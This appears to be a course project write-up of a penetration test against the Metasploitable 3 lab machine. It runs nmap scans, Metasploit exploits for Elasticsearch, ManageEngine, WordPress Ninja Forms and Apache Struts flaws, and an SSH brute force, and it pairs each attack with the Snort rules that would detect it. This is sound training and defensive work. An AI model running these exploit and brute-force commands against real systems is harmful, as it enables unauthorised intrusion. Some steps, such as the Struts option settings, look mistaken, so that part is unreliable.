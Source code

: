🔗 [Cyber_Security_Base_Project_II GitHub Repository](https://github.com/aazard/Cyber_Security_Base_Project_II/tree/main)

# Cyber_Security_Base_Project_II

As **Jeffrey Witty**, a very shy, Christian cybersecurity enthusiast with an INTJ personality type, I approach this project with hyper-careful diligence, aligning with my faith-driven commitment to excellence.  
🕘 Dated: Wednesday, June 11, 2025**.  

This document details my exploration of the **Metasploitable 3** environment, targeting a **Windows Server 2008** and **Ubuntu Server 14** system, hosted at:  
🔗 [Cyber_Security_Base_Project_II GitHub Repository](https://github.com/aazard/Cyber_Security_Base_Project_II/tree/main)

My quiet nature finds strength in methodical analysis, and I cherish the opportunity to deepen my cybersecurity knowledge through this exercise.

---

## 🎯 Target – Metasploitable 3

- **Systems:** Windows Server 2008 & Ubuntu Server 14

---

## 🔍 STEP 1: Run an Nmap Ping Sweep Scan

```bash
nmap -sP 192.168.1.1/24
🧭 STEP 2: Identify Target Host
Target host confirmed as:
192.168.1.40

🛠️ STEP 3: Run an Nmap Scan with OS Fingerprinting
bash
Copy
Edit
nmap -sC -sV -p- -A -oA Meta3 192.168.1.40
Key Findings:

Several open ports and outdated services.

No authentication for admin functions.

Default credentials unchanged.

Snort did not trigger alerts (port scan detection commented out in snort.conf).

🚨 EXPLOIT I – Elasticsearch (CVE-2014-3120)
🔌 Port 9200 – Elasticsearch
Vulnerability: CVE-2014-3120

Reference: Rapid7 Module

🔍 Search for Exploit
bash
Copy
Edit
searchsploit elasticsearch
🧨 Launch Metasploit
bash
Copy
Edit
msfconsole
search elasticsearch
use exploit/multi/elasticsearch/script_mvel_rce
set rhost 192.168.1.40
exploit
Post-exploit commands:

bash
Copy
Edit
sysinfo
shell
whoami
🛡️ Snort Rule Fix
Uncomment in server-other.rules (line ~811):

css
Copy
Edit
SERVER-OTHER ElasticSearch script remote code execution attempt [Classification: Attempted User Privilege Gain]
⚙️ EXPLOIT II – ManageEngine (CVE-2015-8249)
🔌 Port 8020 – Apache Service
Visited:
http://192.168.1.40:8020

ManageEngine Desktop Central (Build No. 91084)
Default credentials: admin:admin

🔍 Search for Exploit
bash
Copy
Edit
searchsploit manageengine desktop central 9
🧨 Metasploit Exploit
bash
Copy
Edit
msfconsole
search manageengine
use exploit/windows/http/manageengine_connectionid_write
set rhost 192.168.1.40
exploit
Verification:

bash
Copy
Edit
sysinfo
shell
whoami
🛡️ Snort Rule Fix
Uncomment lines 1854–1856 in server-webapp.rules:

css
Copy
Edit
SERVER-WEBAPP ManageEngine Desktop Central FileUploadServlet directory traversal attempt [Classification: Web Application Attack]
🌐 EXPLOIT III – WordPress (CVE-2016-1209)
🔌 Port 8585 – WordPress Instance
Accessed via:
http://192.168.1.40:8585

🔍 Research
Rapid7 WP Ninja Forms Exploit

🧨 Metasploit Exploit
bash
Copy
Edit
msfconsole
search wp_ninja_forms
use exploit/multi/http/wp_ninja_forms_unauthenticated_file_upload
set rhost 192.168.1.40
set rport 8585
set TARGETURI /wordpress/
set FORM_PATH /index.php/king-of-hearts/
exploit
🛡️ Snort Rule Fix
Uncomment line 2284 in server-webapp.rules and add port 8585 to HTTP monitoring:

css
Copy
Edit
SERVER-WEBAPP WordPress Ninja Forms nf_async_upload arbitrary PHP file upload attempt [Classification: Attempted Administrator Privilege Gain]
🔐 EXPLOIT IV – SSH Brute Forcing
👥 List Users
bash
Copy
Edit
net users
📄 Prepare User File
Saved as user.txt

🧨 Brute Force with Metasploit
bash
Copy
Edit
use auxiliary/scanner/ssh/ssh_login
set rhost 192.168.1.40
set USER_AS_PASS true
set USER_FILE user.txt
exploit
Valid credentials discovered:
Vagrant:Vagrant

🛡️ Snort Consideration
Snort typically ineffective for detecting high-speed SSH brute force attacks. More useful for slow scans or known patterns.

🌉 EXPLOIT V – Apache Struts (CVE-2016-3087)
🔌 Port 8282 – Apache Tomcat
Nmap detected Apache Tomcat.

🔍 Research
Rapid7 Vulnerability Detail

🧨 Metasploit Exploit
bash
Copy
Edit
msfconsole
search rest_exec
use exploit/multi/http/struts_dmi_rest_exec
set lhost 192.168.1.40
set lport 8282
exploit
🛡️ Snort Rule Fix
Ensure lines 118–119 in server-apache.rules are active and port 8282 is included:

css
Copy
Edit
SERVER-APACHE Apache Struts remote code execution attempt [Classification: Attempted Administrator Privilege Gain]
🧠 Is it Easier to Fix the Application Than to Detect Attacks?
Detecting attacks is generally easier than fixing applications.
Fixing requires navigating massive codebases, often introducing new bugs. Implementation errors, especially in complex systems like IoT, increase developer workload. In contrast, methods like recon, privilege escalation, and pen testing reveal vulnerabilities more efficiently.

IDS tools like Snort and log analysis help identify patterns and vulnerabilities—though false positives are common. Once identified, vulnerabilities in modern open-source platforms can be patched more easily, but only after detection.

As a Christian technologist, I see detection as a responsible stewardship of system integrity, aligning with my faith in proactive, secure design.
